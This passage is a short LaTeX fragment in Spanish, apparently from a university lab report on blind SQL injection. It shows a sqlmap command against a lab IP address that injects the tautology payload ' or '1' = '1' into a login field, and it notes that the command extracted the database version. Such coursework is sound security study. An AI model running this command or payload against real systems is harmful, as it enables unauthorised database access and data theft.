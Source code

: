 \documentclass[a4paper,oneside]{article}
\begin{document}
\begin{lstlisting}[language=bash]
sqlmap --url http://84.88.58.170/UOC/Alumnos/blindsqlinjection/ --data="usuario=' or '1' = '1'" -p "usuario"
\end{lstlisting}

\begin{figure}[h!]
  \centering
  \includegraphics[scale=0.5]{images/sqlmap.png}\\
  \vspace{.5cm}
  \includegraphics[scale=0.5]{images/sqlmap2.png}
  \caption{sqlmap ha sacado la versión de la base de datos}
  \label{fig:sqlmap}
\end{figure}

\newpage

Con esta herramienta podemos ir sacando información de manera incremental ya que sqlmap lleva un registro de lo que ha ido encontrando respecto a un endpoint y parte nuevamente de él haciendo más fácil su ejecución en futuras ocasiones. Con el comando anterior hemos podido sacar la versión de la base de datos.
\end{document}
